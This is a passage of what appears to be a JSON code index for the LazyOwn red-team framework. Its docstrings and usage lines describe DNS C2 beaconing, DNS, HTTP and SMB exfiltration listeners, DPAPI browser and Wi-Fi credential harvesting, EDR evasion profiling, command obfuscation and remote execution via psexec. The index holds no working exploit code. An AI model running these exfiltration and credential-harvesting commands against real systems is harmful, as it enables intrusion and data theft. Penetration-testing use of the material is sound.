all hosts\n    db_hosts -a <ip> [hostname] [os]  — add a host\n    db_hosts -d <id>                  — delete a host\n    db_hosts -s <query>               — search (by IP, hostname, OS)", "kind": "method", "line": 124, "name": "do_db_hosts", "signature": "def do_db_hosts(self, line)"}, {"doc": "List all services in the active workspace.\n\nUsage: db_services [host_id]", "kind": "method", "line": 185, "name": "do_db_services", "signature": "def do_db_services(self, line)"}, {"doc": "List or add vulnerabilities.\n\nUsage:\n    db_vulns                      — list all vulns\n    db_vulns -a <host_id> <name>  — add a vuln\n    db_vulns -s <severity>        — filter by severity", "kind": "method", "line": 213, "name": "do_db_vulns", "signature": "def do_db_vulns(self, line)"}, {"doc": "Re-verify a finding in an isolated session (LAZY retester).\n\nUsage:\n    retest <finding_id> [command]   — re-run PoC or command away\n    from the live session, then record reproducible / fixed /\n    inconclusive. Only a fixed conclusion flips status.\n\nThe verification runs through a fresh runner process carrying a\nretest session id, so the live world model is never touched.", "kind": "method", "line": 267, "name": "do_retest", "signature": "def do_retest(self, line)"}, {"doc": "List or add credentials.\n\nUsage:\n    db_creds                          — list all creds\n    db_creds -a <host_id> <user> <pass> [type]", "kind": "method", "line": 349, "name": "do_db_creds", "signature": "def do_db_creds(self, line)"}, {"doc": "List or add loot items.\n\nUsage:\n    db_loot                           — list all loot\n    db_loot -a <name> <path> [type]   — add a loot entry", "kind": "method", "line": 393, "name": "do_db_loot", "signature": "def do_db_loot(self, line)"}, {"doc": "List or add notes.\n\nUsage:\n    db_notes                      — list all notes\n    db_notes -a <text> [type]     — add a note", "kind": "method", "line": 433, "name": "do_db_notes", "signature": "def do_db_notes(self, line)"}, {"doc": "Import scan results into the database.\n\nUsage: db_import <file>\nSupported formats: Nmap XML (.nmap, .xml)", "kind": "method", "line": 471, "name": "do_db_import", "signature": "def do_db_import(self, line)"}, {"doc": "Export database table to CSV.\n\nUsage: db_export <table> [output_file]\nTables: hosts, services, vulns, creds, loot, notes", "kind": "method", "line": 509, "name": "do_db_export", "signature": "def do_db_export(self, line)"}, {"doc": "Show entity counts for the active workspace.\n\nUsage: db_status", "kind": "method", "line": 543, "name": "do_db_status", "signature": "def do_db_status(self, line)"}]}, {"doc": "Build-defaults inspection and override command set.  Phase-scoped home for the ``defaults`` operator command (category ``12. Miscellaneous``). Build-time fallbacks live in ``config/defaults.toml`` and are read through ``core.defaults``; this command shows effective values and writes per-engagement overrides into ``payload.json`` through the canonical ``assign`` path, so the TOML file itself is never rewritten at runtime.  Usage: defaults show defaults show wordlists defaults set wordlist /path/to/list.txt defaults set lport 4444 defaults set rport 443", "id": "cli/commands/defaults.py", "kind": "module", "label": "defaults.py", "language": "py", "sha256": "db05bb6f934fbcb6", "symbol_count": 4, "symbols": [{"doc": "Inspect and override build-time default constants.", "kind": "class", "line": 38, "name": "DefaultsCommandSet", "signature": "class DefaultsCommandSet(LazyOwnCommandSet)"}, {"doc": "Show or override build-time defaults (TOML + payload.json).\n\n:param line: 'show [section]' or 'set <name> <value>'.", "kind": "method", "line": 45, "name": "do_defaults", "signature": "def do_defaults(self, line)"}, {"doc": "Print TOML defaults alongside live payload values.", "kind": "method", "line": 60, "name": "_show", "signature": "def _show(self, section)"}, {"doc": "Persist an override into payload.json via the assign path.", "kind": "method", "line": 77, "name": "_set", "signature": "def _set(self, name, value)"}]}, {"doc": "End-to-end demo command — MCP registration plus the golden path.  Runs the documented first-shift flow in one shot so a new operator (or a recorded demo) sees every surface working together:  mcp add  ->  session init (sitrep)  ->  recommend_next  ->  lazynmap  The MCP step only prints the registration command — the operator runs it in their AI client (Claude Code / Hermes). The remaining three steps execute inside this shell via ``onecmd`` delegation, so ``demo`` behaves exactly like typing each command by hand (and composes with ``&&``).", "id": "cli/commands/demo.py", "kind": "module", "label": "demo.py", "language": "py", "sha256": "c486ed7d5dc49c23", "symbol_count": 2, "symbols": [{"doc": "One-shot golden-path demo: MCP wiring plus sitrep/recommend/scan.", "kind": "class", "line": 22, "name": "DemoCommandSet", "signature": "class DemoCommandSet(LazyOwnCommandSet)"}, {"doc": "Run the end-to-end demo: MCP registration, session init, recommend, scan.\n\nUsage:\n    demo                 — full flow (ends with a live lazynmap scan)\n    demo --dry-run       — preview every step without scanning\n    demo --skip-scan     — session init + recommend_next only\n\nSteps:\n  1. Prints the MCP registration for AI clients\n     (``mcp add lazyown python3 ./skills/lazyown_mcp.py``).\n  2. Session init — runs ``sitrep`` (CLI equivalent of the MCP\n     tool ``lazyown_session_init``).\n  3. Runs ``recommend_next`` (CLI equivalent of\n     ``lazyown_recommend_next``).\n  4. Runs ``lazynmap`` against the current rhost (CLI equivalent\n     of ``lazyown_run_command('lazynmap')``).", "kind": "method", "line": 29, "name": "do_demo", "signature": "def do_demo(self, line)"}]}, {"doc": "Diagnostics CommandSet (Tier 2 pilot).  A small, low-risk phase module that proves the ``CommandSet`` registration flow works end-to-end against a live ``LazyOwnShell`` instance. It exposes read-only commands operators can use to inspect the framework's runtime state without mutating anything.  Subsequent tiers migrate the ~280 legacy ``do_*`` methods from ``lazyown.py`` into similar phase-scoped modules.", "id": "cli/commands/diagnostics.py", "kind": "module", "label": "diagnostics.py", "language": "py", "sha256": "def9892d41565082", "symbol_count": 3, "symbols": [{"doc": "Operator-facing diagnostics commands.", "kind": "class", "line": 23, "name": "DiagnosticsCommandSet", "signature": "class DiagnosticsCommandSet(LazyOwnCommandSet)"}, {"doc": "Print interpreter, platform and core LazyOwn paths.", "kind": "method", "line": 30, "name": "do_sys_runtime", "signature": "def do_sys_runtime(self, _statement)"}, {"doc": "List the keys currently present in the parent shell's payload.", "kind": "method", "line": 41, "name": "do_sys_payload_keys", "signature": "def do_sys_payload_keys(self, _statement)"}]}, {"doc": "DNS exfiltration and covert channel command set.  Phase 09 — commands for DNS tunneling exfiltration, DNS C2 beacon management, and DNS query log monitoring.", "id": "cli/commands/dns_exfil.py", "kind": "module", "label": "dns_exfil.py", "language": "py", "sha256": "35bf7d712326e364", "symbol_count": 12, "symbols": [{"doc": "Return a safe basename from an untrusted input, falling back to a random name.", "kind": "function", "line": 36, "name": "_sanitize_filename", "signature": "def _sanitize_filename(name)"}, {"doc": "DNS exfiltration and covert channel commands.", "kind": "class", "line": 44, "name": "DNSExfilCommandSet", "signature": "class DNSExfilCommandSet(LazyOwnCommandSet)"}, {"doc": "Start a DNS tunneling beacon.\n\nUsage: dns_beacon --domain <c2.domain.com> [--type A|TXT|AAAA]\n       [--sleep <seconds>] [--jitter <percent>] [--server <dns_server>]\n\nThe DNS beacon encodes heartbeats and command output as subdomain\nDNS queries. Commands are received via DNS response records.\nRequires a cooperating DNS server for the controlled domain.", "kind": "method", "line": 51, "name": "do_dns_beacon", "signature": "def do_dns_beacon(self, line)"}, {"doc": "Start a DNS exfiltration listener on UDP port 53.\n\nUsage: dns_exfil_listen [--port <port>] [--domain <domain>] [--output <dir>]\n\nListens for DNS queries containing encoded file data in subdomain\nlabels. Reconstructs files from base32-encoded, gzip-compressed\nchunks. Supports A, TXT, and AAAA query types.", "kind": "method", "line": 97, "name": "do_dns_exfil_listen", "signature": "def do_dns_exfil_listen(self, line)"}, {"doc": "Show status of all DNS beacons.\n\nReads beacon state from sessions/dns_beacons.json.", "kind": "method", "line": 183, "name": "do_dns_beacon_status", "signature": "def do_dns_beacon_status(self, line)"}, {"doc": "Start a minimal HTTP exfiltration receiver.\n\nUsage: http_exfil_server [--port <port>] [--output <dir>]\n\nListens for HTTP POST requests containing exfiltrated file data.\nSupports chunked uploads with X-Chunk-* headers for reassembly.", "kind": "method", "line": 204, "name": "do_http_exfil_server", "signature": "def do_http_exfil_server(self, line)"}, {"doc": "Exfiltrate files to an SMB share on the attacker machine.\n\nUsage: smb_exfil <file_path> [--share <share_name>] [--host <smb_host>]\n\nCopies a file to an SMB share. Requires an SMB server running\non the attacker machine (e.g., impacket-smbserver).", "kind": "method", "line": 304, "name": "do_smb_exfil", "signature": "def do_smb_exfil(self, line)"}, {"doc": "Start all required exfiltration listeners.\n\nUsage: exfil_start_server [--all] [--dns] [--http] [--smb]\n\nStarts DNS (53/udp), HTTP (8888/tcp), and SMB (445/tcp) listeners\nfor receiving exfiltrated data via all transports.", "kind": "method", "line": 338, "name": "do_exfil_start_server", "signature": "def do_exfil_start_server(self, line)"}, {"kind": "method", "line": 384, "name": "_extract", "signature": "def _extract(args, flag)"}, {"kind": "class", "line": 227, "name": "ExfilHandler", "signature": "class ExfilHandler(BaseHTTPRequestHandler)"}, {"kind": "method", "line": 228, "name": "do_POST", "signature": "def do_POST(self)"}, {"kind": "method", "line": 289, "name": "log_message", "signature": "def log_message(self, fmt)"}]}, {"doc": "DPAPI credential harvesting command set.  Phase 09 — commands for DPAPI master key extraction, credential manager decryption, browser data harvesting, and offline DPAPI blob attacks.", "id": "cli/commands/dpapi.py", "kind": "module", "label": "dpapi.py", "language": "py", "sha256": "07e234e237a8776c", "symbol_count": 5, "symbols": [{"doc": "DPAPI credential harvesting and decryption commands.", "kind": "class", "line": 23, "name": "DPAPICommandSet", "signature": "class DPAPICommandSet(LazyOwnCommandSet)"}, {"doc": "Harvest all DPAPI-protected credentials from the local machine.\n\nUsage: dpapi_harvest [--sessions <dir>]\n\nCollects:\n- Master keys from %APPDATA%/Microsoft/Protect\n- Credential Manager entries (cmdkey)\n- Chrome/Edge passwords, cookies, payment methods\n- Wi-Fi profiles with WPA keys\n- RDP credential cache\n- Windows Vault entries\n\nRun from the implant or local Windows machine.", "kind": "method", "line": 30, "name": "do_dpapi_harvest", "signature": "def do_dpapi_harvest(self, line)"}, {"doc": "List and extract DPAPI master keys.\n\nUsage: dpapi_masterkeys [--path <masterkey_path>]\n\nLists GUIDs, SIDs, and file paths for all discovered master keys.\nUse with dploot or dpapilab for offline decryption.", "kind": "method", "line": 66, "name": "do_dpapi_masterkeys", "signature": "def do_dpapi_masterkeys(self, line)"}, {"doc": "Decrypt a DPAPI blob offline.\n\nUsage: dpapi_blob <blob_hex> [--mk <masterkey_hex>] [--entropy <entropy_hex>]\n\nDecrypts a raw DPAPI blob using the provided master key.\nFormat: hex string of the raw DPAPI ciphertext.", "kind": "method", "line": 113, "name": "do_dpapi_blob", "signature": "def do_dpapi_blob(self, line)"}, {"kind": "method", "line": 151, "name": "_extract", "signature": "def _extract(args, flag)"}]}, {"doc": "EDR Detection command set.  Phase 02 — commands for detecting endpoint security products on targets, generating evasion profiles, and recommending bypass techniques.", "id": "cli/commands/edr_detect.py", "kind": "module", "label": "edr_detect.py", "language": "py", "sha256": "d3e1790a8bd2d583", "symbol_count": 5, "symbols": [{"doc": "EDR/AV detection and evasion profiling commands.", "kind": "class", "line": 27, "name": "EDRDetectCommandSet", "signature": "class EDRDetectCommandSet(LazyOwnCommandSet)"}, {"doc": "Detect EDR/AV products on the target.\n\nUsage:\n    edr_detect                    Detect locally (from implant)\n    edr_detect --target <ip>      Generate remote detection commands\n    edr_detect --target <ip> --user <u> --password <p>  Execute remotely via CrackMapExec\n\nFingerprints 17 EDR/AV products and generates tailored bypass recommendations.", "kind": "method", "line": 34, "name": "do_edr_detect", "signature": "def do_edr_detect(self, line)"}, {"doc": "Generate an evasion profile based on detected EDR.\n\nUsage: edr_profile [--product <name>]\n\nTakes detected EDR product names and recommends specific bypass\ntechniques. With no arguments, shows bypasses for common EDRs.", "kind": "method", "line": 84, "name": "do_edr_profile", "signature": "def do_edr_profile(self, line)"}, {"doc": "Generate a PowerShell EDR detection script.\n\nUsage: edr_script [--output <path>]\n\nCreates a comprehensive PowerShell script that detects 17+ EDR/AV\nproducts via WMI, services, processes, registry, and drivers.\nSaves to sessions/edr_detect.ps1 by default.", "kind": "method", "line": 140, "name": "do_edr_script", "signature": "def do_edr_script(self, line)"}, {"kind": "method", "line": 173, "name": "_extract", "signature": "def _extract(args, flag)"}]}, {"doc": "Encoding commands extracted from misc_migrated.py.  Phase misc cluster: URL/base64/rot/obfuscation helpers. Active: originals deleted from ``cli/commands/misc_migrated.py`` and this set is registered by ``cli.registry``.", "id": "cli/commands/encoding.py", "kind": "module", "label": "encoding.py", "language": "py", "sha256": "6a961bccbed4b97c", "symbol_count": 15, "symbols": [{"doc": "Encoding helpers (pending).", "kind": "class", "line": 30, "name": "EncodingCommandSet", "signature": "class EncodingCommandSet(LazyOwnCommandSet)"}, {"doc": "Encode a string for URL.\n\nThis function takes a string as input, encodes it for URL compatibility using the `quote` function, and prints the encoded result.\n\nUsage:\n    urlencode <string_to_encode>\n\n:param line: The string to encode for URL.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run this task, provide a string to be URL-encoded as an argument. The function will encode it and print the result.\n\nNote: If no input is provided or the input is only whitespace, an error message will be displayed.", "kind": "method", "line": 37, "name": "do_urlencode", "signature": "def do_urlencode(self, line)"}, {"doc": "Decode a URL-encoded string.\n\nThis function takes a URL-encoded string as input, decodes it using the `unquote` function, and prints the decoded result.\n\nUsage:\n    urldecode <url_encoded_string>\n\n:param line: The URL-encoded string to decode.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run this task, provide a URL-encoded string as an argument. The function will decode it and print the result.\n\nNote: If no input is provided or the input is only whitespace, an error message will be displayed.", "kind": "method", "line": 66, "name": "do_urldecode", "signature": "def do_urldecode(self, line)"}, {"doc": "Encodes a string using the specified shift value and substitution key.\n\nThis function encodes the given string by applying a shift value and a substitution key.\n\nUsage:\n    encode <shift_value> <substitution_key> <string>\n\n:param line: The input string containing the shift value, substitution key, and the string to be encoded. The format should be '<shift_value> <substitution_key> <string>'.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run this task, provide a shift value (integer), a substitution key, and the string to encode in the format `encode <shift_value> <substitution_key> <string>`.\n\nNote: The function assumes the shift value is an integer. If the shift value is not an integer, it will print an error message.", "kind": "method", "line": 95, "name": "do_encode", "signature": "def do_encode(self, line)"}, {"doc": "Decode a string using the specified shift value and substitution key.\n\nThis function decodes the given string by applying a shift value and a substitution key to reverse the encoding process.\n\nUsage:\n    decode <shift_value> <substitution_key> <string>\n\n:param line: The input string containing the shift value, substitution key, and the string to be decoded. The format should be '<shift_value> <substitution_key> <string>'.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run this task, provide a shift value (integer), a substitution key, and the string to decode in the format `decode <shift_value> <substitution_key> <string>`.\n\nNote: The function assumes the shift value is an integer. If the shift value is not an integer, it will print an error message.", "kind": "method", "line": 135, "name": "do_decode", "signature": "def do_decode(self, line)"}, {"doc": "Apply a ROT (rotation) substitution cipher to the given string.\n\nThis function rotates each character in the input string by the specified number of positions in the alphabet. It supports rotation values between 1 and 27.\n\nUsage:\n    rot <number> '<string>'\n\n:param line: The input string containing the number and the text to be rotated. The format should be '<number> '<string>' where <number> is the rotation amount and <string> is the text to be ciphered.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run this task, provide a number (rotation amount) and a string in the format `rot <number> '<string>'`. Ensure the number is between 1 and 27.\n\nNote: The function assumes that the rotation number is an integer between 1 and 27. If the number is out of range or not a valid integer, it will print an error message.", "kind": "method", "line": 173, "name": "do_rot", "signature": "def do_rot(self, line)"}, {"doc": "Apply a ROT (rotation) substitution cipher to the given extension.\n\nThis function rotates each character in the input extension by the specified number of positions in the alphabet. It supports rotation values between 1 and 27.\n\nUsage:\n    rot <number> '<extension>'\n\n:param line: The input extension containing the number and the text to be rotated. The format should be '<number> '<extension>' where <number> is the rotation amount and <extension> is the text to be ciphered.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run this task, provide a number (rotation amount) and a extension in the format `rot <number> '<extension>'`. Ensure the number is between 1 and 27.\n\nNote: The function assumes that the rotation number is an integer between 1 and 27. If the number is out of range or not a valid integer, it will print an error message.", "kind": "method", "line": 213, "name": "do_rotf", "signature": "def do_rotf(self, line)"}, {"doc": "Applies various obfuscations to a given command line string to create multiple obfuscated versions.\n\n1. Defines a helper function `double_base64_encode(cmd)` that performs double Base64 encoding on a given command.\n2. Defines the `apply_obfuscations(cmd)` function to create a list of obfuscated commands using different techniques.\n3. Applies these obfuscations to the provided `line` argument and prints each obfuscated command.\n\n:param line: The command line string to be obfuscated.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run these tasks, you would:\n- Provide the command you want to obfuscate as the argument to this function.\n- The function will generate various obfuscated versions of the command and print them.\n\nNote: Ensure that the command is properly formatted and valid to avoid errors during obfuscation. The obfuscations may involve different encoding and string manipulation techniques.", "kind": "method", "line": 259, "name": "do_encoderpayload", "signature": "def do_encoderpayload(self, line)"}, {"doc": "Encodes a given string into Base64 format.\n\n1. Encodes the input string:\n    - Uses the `base64` library to encode the provided string into Base64 format.\n\n2. Displays the encoded string:\n    - Prints the Base64 encoded string to the terminal.\n\n:param line: The string to encode in Base64 format.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually encode a string in Base64:\n- Provide the string to the command and it will print the Base64 encoded result.\nExample usage: `base64encode HelloWorld`", "kind": "method", "line": 361, "name": "do_base64encode", "signature": "def do_base64encode(self, line)"}, {"doc": "Decodes a Base64 encoded string.\n\n1. Decodes the Base64 string:\n    - Uses the `base64` library to decode the provided Base64 encoded string back to its original form.\n\n2. Displays the decoded string:\n    - Prints the decoded string to the terminal.\n\n:param line: The Base64 encoded string to decode.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually decode a Base64 encoded string:\n- Provide the Base64 encoded string to the command and it will print the decoded result.\nExample usage: `base64decode SGVsbG9Xb3JsZA==`", "kind": "method", "line": 389, "name": "do_base64decode", "signature": "def do_base64decode(self, line)"}, {"doc": "Encodes a given payload into a Base64 encoded string suitable for Windows PowerShell execution.\n\nThis function takes a payload as input, encodes it into UTF-16 Little Endian format,\nand then encodes the resulting bytes into a Base64 string. It then constructs PowerShell\ncommands that can execute the encoded payload. The final commands are printed and\ncopied to the clipboard for easy use.\n\nArgs:\n    line (str): The payload to be encoded. If not provided, the function will prompt\n                the user to enter a payload, defaulting to 'whoami' if no input is given.\n\nReturns:\n    None\n\nExample:\n    >>> encoder = Encoder()\n    >>> encoder.do_encodewinbase64('Get-Process')\n    [Outputs the encoded PowerShell commands and copies the final command to the clipboard]", "kind": "method", "line": 420, "name": "do_encodewinbase64", "signature": "def do_encodewinbase64(self, line)"}, {"doc": "Convert an IPv4 address into its hexadecimal representation.\n\nThis function takes an IPv4 address in standard dotted-decimal format\n(e.g., '192.168.1.1') and converts each of its four octets into a hexadecimal\nnumber. The resulting hexadecimal string is concatenated without separators,\nproviding the full hexadecimal equivalent of the IP address.\n\nThe input IP address is expected to be a string in the format 'X.X.X.X',\nwhere X is an integer between 0 and 255.\n\nParameters:\nline (str): The input string representing the IPv4 address in dotted-decimal format.\n\nReturns:\nNone: The hexadecimal equivalent of the IP address is printed to the console.", "kind": "method", "line": 483, "name": "do_ip2hex", "signature": "def do_ip2hex(self, line)"}, {"doc": "Converts hexadecimal data from a file to plain text.\n\nOpens a text editor for the user to paste hexadecimal data into a file.\nThen reads the file, processes the hexadecimal data, and writes the plain text to a new file.\n\nArgs:\n    line (str): Name of the file containing hexadecimal data (without extension).\n                Defaults to 'request.txt' if not provided.\n\nReturns:\n    None", "kind": "method", "line": 509, "name": "do_hex_to_plaintext", "signature": "def do_hex_to_plaintext(self, line)"}, {"doc": "Perform double Base64 encoding on the given command.\n\nThis helper function takes a command string, encodes it in Base64, and then performs\nanother Base64 encoding on the result. The final encoded string is returned.\n\nArgs:\n    cmd (str): The command string to be encoded.\n\nReturns:\n    str: The double Base64 encoded string.\n\nExample:\n    >>> double_base64_encode(\"example\")\n    'ZWN4YW5hbWVsZQ=='\n\nNotes:\n    - The function first encodes the command string into bytes using UTF-8 encoding.\n    - It then applies Base64 encoding twice and removes any leading or trailing whitespace.\n    - The result is decoded back to a string and returned.\n\nRaises:\n    TypeError: If the input `cmd` is not a string.", "kind": "function", "line": 281, "name": "double_base64_encode", "signature": "def double_base64_encode(cmd)"}, {"doc": "Generate a list of obfuscated commands based on the given input command.\n\nThis function creates various obfuscated versions of the provided command string.\nEach obfuscation method applies a different technique to disguise the command,\nmaking it less recognizable to simple static analysis.\n\nArgs:\n    cmd (str): The command string to be obfuscated.\n\nReturns:\n    list of str: A list of obfuscated command strings.\n\nNotes:\n    - Each obfuscation method aims to transform the command in a unique way.\n    - Obfuscations include encoding, character replacement, and command substitution techniques.\n    - Ensure that the `double_base64_encode` function is defined and available in the scope where this function is used.\n\nRaises:\n    TypeError: If the input `cmd` is not a string.", "kind": "function", "line": 309, "name": "apply_obfuscations", "signature": "def apply_obfuscations(cmd)"}]}, {"doc": "Enumeration command set.  Service enumeration commands: SMB, RPC, LDAP quick checks, and related impacket tools.", "id": "cli/commands/enum.py", "kind": "module", "label": "enum.py", "language": "py", "sha256": "f6ec5070d7c83474", "symbol_count": 11, "symbols": [{"doc": "Enumeration phase commands.", "kind": "class", "line": 31, "name": "EnumCommandSet", "signature": "class EnumCommandSet(LazyOwnCommandSet)"}, {"doc": "Interacts with SMB shares using the `smbclient` command to perform the following operations:\n\n1. Checks if `rhost` (remote host) and `lhost` (local host) are assign; if not, an error message is displayed.\n2. If `line` (share name) is provided:\n- Attempts to access the specified SMB share on the remote host using the command: `smbclient -N \\\\{rhost}\\{line}`\n3. If `line` is not provided:\n- Lists available SMB shares on the remote host with the command: `smbclient -N -L \\\\{rhost}`\n4. Suggests a potential SMB exploit if possible by mounting the share from the local host using: `mount -t cifs \"//{lhost}/share\" /mnt/smb`\n\n:param line: The name of the SMB share to access on the remote host. If not provided, the function will list all available shares.\n:returns: None", "kind": "method", "line": 38, "name": "do_smbclient", "signature": "def do_smbclient(self, line)"}, {"doc": "Interacts with SMB shares using the `smbclient` command to perform the following operations:\n\n1. Checks if `rhost` (remote host) and `lhost` (local host) are assign; if not, an error message is displayed.\n2. If `line` (share name) is provided:\n- Attempts to access the specified SMB share on the remote host using the command: `smbclient -N \\\\{rhost}\\{line}`\n3. If `line` is not provided:\n- Lists available SMB shares on the remote host with the command: `smbclient -N -L \\\\{rhost}`\n4. Suggests a potential SMB exploit if possible by mounting the share from the local host using: `mount -t cifs \"//{lhost}/share\" /mnt/smb`\n\n:param line: The name of the SMB share to access on the remote host. If not provided, the function will list all available shares.\n:returns: None", "kind": "method", "line": 108, "name": "do_smbclient_impacket", "signature": "def do_smbclient_impacket(self, line)"}, {"doc": "Interacts with SMB shares using the `smbclient.py` command to perform the following operations:\n\n1. Checks if `rhost` (remote host) and `lhost` (local host) are assign; if not, an error message is displayed.\n2. If `line` (share name) is provided:\n- Attempts to access the specified SMB share on the remote host using the command: `smbclient.py -N \\\\{rhost}\\{line}`\n3. If `line` is not provided:\n- Lists available SMB shares on the remote host with the command: `smbclient.py -N -L \\\\{rhost}`\n4. Suggests a potential SMB exploit if possible by mounting the share from the local host using: `mount -t cifs \"//{lhost}/share\" /mnt/smb`\n\n:param line: The name of the SMB share to access on the remote host. If not provided, the function will list all available shares.\n:returns: None", "kind": "method", "line": 178, "name": "do_smbclient_py", "signature": "def do_smbclient_py(self, line)"}, {"doc": "smbmap -H 10.10.10.3 [OPTIONS]\nUses the `smbmap` tool to interact with SMB shares on a remote host:\n\n1. Checks if `rhost` (remote host) and `lhost` (local host) are assign; if not, an error message is displayed.\n2. If no `line` (share name or options) is provided:\n- Attempts to access SMB shares on the remote host with a default user `deefbeef` using the command: `smbmap -H {rhost} -u 'deefbeef'`\n3. If `line` is provided:\n- Executes `smbmap` with the specified options or share name using the command: `smbmap -H {rhost} -R {line}`\n4. Suggests a potential SMB exploit if possible by mounting the share from the local host using: `mount -t cifs \"//{lhost}/documents\" /mnt/smb`\n\n:param line: Options or share name to use with `smbmap`. If not provided, uses a default user to list shares.\n:returns: None", "kind": "method", "line": 225, "name": "do_smbmap", "signature": "def do_smbmap(self, line)"}, {"doc": "sudo impacket-GetNPUsers mist.htb/ -no-pass -usersfile sessions/users.txt\nExecutes the `impacket-GetNPUsers` command to enumerate users with Kerberos pre-authentication disabled.\n\n1. Checks if the `line` (domain) argument is provided; if not, an error message is displayed, instructing the user to provide a domain.\n2. Executes `impacket-GetNPUsers` with the following options:\n- `-no-pass`: Skips password prompt.\n- `-usersfile sessions/users.txt`: Specifies the file containing the list of users to check.\n\n:param line: The domain to query. Must be provided in the format `domain.com`. Example usage: `getnpusers domain.com`\n:returns: None\n\nManual execution:\nTo manually run this command, use the following syntax:\n    sudo impacket-GetNPUsers <domain> -no-pass -usersfile sessions/users.txt\nReplace `<domain>` with the actual domain name you want to query.", "kind": "method", "line": 345, "name": "do_getnpusers", "signature": "def do_getnpusers(self, line)"}, {"doc": "Executes the Impacket PSExec tool to attempt remote execution on the specified target.\n\nThis function performs the following actions:\n1. Checks if the provided target host (`rhost`) is valid.\n2. If the `line` argument is \"pass\", it searches for credential files with the pattern `credentials*.txt`\nand allows the user to select which file to use for executing the command.\n3. If the `line` argument is not \"pass\", it assumes execution without a password (using the current credentials).\n4. Copies the `rhost` IP address to the clipboard for ease of use.\n\nParameters:\nline (str): A command argument to determine the action.\n            If \"pass\", the function searches for credential files and authenticates using the selected file.\n            Otherwise, it executes PSExec without a password using the `rhost` IP.\n\nReturns:\nNone", "kind": "method", "line": 390, "name": "do_psexec", "signature": "def do_psexec(self, line)"}, {"doc": "Executes the Impacket PSExec tool to attempt remote execution on the specified target.\n\nThis function performs the following actions:\n1. Checks if the provided target host (`rhost`) is valid.\n2. If the `line` argument is \"pass\", it searches for credential files with the pattern `credentials*.txt`\nand allows the user to select which file to use for executing the command.\n3. If the `line` argument is not \"pass\", it assumes execution without a password (using the current credentials).\n4. Copies the `rhost` IP address to the clipboard for ease of use.\n\nParameters:\nline (str): A command argument to determine the action.\n            If \"pass\", the function searches for credential files and authenticates using the selected file.\n            Otherwise, it executes PSExec without a password using the `rhost` IP.\n\nReturns:\nNone", "kind": "method", "line": 446, "name": "do_psexec_py", "signature": "def do_psexec_py(self, line)"}, {"doc": "Executes the `rpcdump.py` script to dump RPC services from a target host.\n\n1. Retrieves the target host IP from the `rhost` parameter.\n2. Checks if the `rhost` parameter is valid using `check_rhost()`. If invalid, the function returns early.\n3. Executes the `rpcdump.py` script on port 135 and 593 to gather RPC service information from the target host.\n\n:param line: This parameter is not used in this command but is included for consistency with other methods.\n:returns: None\n\nManual execution:\nTo manually run this command, use the following syntax:\n    rpcdump.py -p 135 <target_host>\n    rpcdump.py -p 593 <target_host>\nReplace `<target_host>` with the IP address or hostname of the target machine.", "kind": "method", "line": 502, "name": "do_rpcdump", "signature": "def do_rpcdump(self, line)"}, {"doc": "Performs enumeration of information from a target Linux/Unix system using `enum4linux`.\n\n1. Executes the `enum4linux` command with the `-a` option to gather extensive information from the specified target.\n\n:param line: This parameter is not used in the current implementation but could be used to pass additional options or arguments if needed.\n:param rhost: The target host for enumeration, specified in the `params` dictionary.\n\n:returns: None\n\nManual execution:\nTo manually enumerate information from a Linux/Unix system, use the following command:\n    enum4linux -a <target_host>\n\nReplace `<target_host>` with the IP address or hostname of the target system.\n\nFor example:\n    enum4linux -a 192.168.1.10", "kind": "method", "line": 528, "name": "do_enum4linux", "signature": "def do_enum4linux(self, line)"}, {"doc": "Executes the `rpcclient` command to interact with a remote Windows system over RPC (Remote Procedure Call) using anonymous credentials.\n\n1. Runs `rpcclient` with the `-U ''` (empty username) and `-N` (no password) options to connect to the target host specified by `rhost`.\n\n:param line: This parameter is not used in the current implementation but could be used to specify additional options or arguments if needed.\n:param rhost: The IP address of the remote host to connect to, specified in the `params` dictionary.\n\n:returns: None\n\nManual execution:\nTo manually interact with a remote Windows system using RPC, use the following command:\n    rpcclient -U '' -N <target_ip>\n\nReplace `<target_ip>` with the IP address of the target system. For example:\n    rpcclient -U '' -N 10.10.10.10", "kind": "method", "line": 558, "name": "do_rpcclient", "signature": "def do_rpcclient(self, line)"}]}, {"doc": "Estorides integration commands — bidirectional feedback loop with passive OSINT.  Commands: estorides_seed     Feed LazyOwn hosts into Estorides for passive discovery. estorides_import   Import Estorides-discovered entities into LazyOwn DB/scope. estorides_loop     Run the full bidirectional feedback loop (N iterations). estorides_surface  Show the combined active + passive attack surface.", "id": "cli/commands/estorides.py", "kind": "module", "label": "estorides.py", "language": "py", "sha256": "4c33050c2f63d62b", "symbol_count": 9, "symbols": [{"kind": "function", "line": 43, "name": "_yellow", "signature": "def _yellow(text)"}, {"kind": "function", "line": 47, "name": "_green", "signature": "def _green(text)"}, {"doc": "Bidirectional Estorides <-> LazyOwn integration commands.", "kind": "class", "line": 51, "name": "EstoridesCommandSet", "signature": "class EstoridesCommandSet(LazyOwnCommandSet)"}, {"doc": "Check that estorides is cloned and available.", "kind": "method", "line": 57, "name": "_check_estorides", "signature": "def _check_estorides(self)"}, {"doc": "Feed LazyOwn hosts/domains into Estorides for passive OSINT discovery.\n\nUsage:\n    estorides_seed [--source <src>] [--max-depth <n>] [--max-steps <n>]\n\nSeed sources:\n    all          - All available sources (default)\n    world_model  - From sessions/world_model.json\n    hosts_file   - From sessions/hostsdiscovery.txt\n    db           - From lazyown.db hosts table\n    scope        - From payload.json scope list\n    <ip/domain>  - Manual seed value\n\nExamples:\n    estorides_seed                          # seed all sources\n    estorides_seed --source hosts_file      # only from hostsdiscovery.txt\n    estorides_seed --source scope --max-depth 3\n    estorides_seed 10.10.14.141             # manual seed", "kind": "method", "line": 73, "name": "do_estorides_seed", "signature": "def do_estorides_seed(self, line)"}, {"doc": "Import Estorides-discovered entities into LazyOwn database and scope.\n\nUsage:\n    estorides_import [--from <source>] [--case-id <id>] [--no-scope] [--no-db]\n\nImport sources:\n    case        - Read from estorides case store (SQLite)\n    stix        - Parse STIX 2.1 bundles from estorides data/\n    lan         - Read Estorides LAN bundle (data/lan_output or\n                  sessions/lan_inventory.json) into DB + scope\n    all         - All available sources (default)\n\nOptions:\n    --from <s>      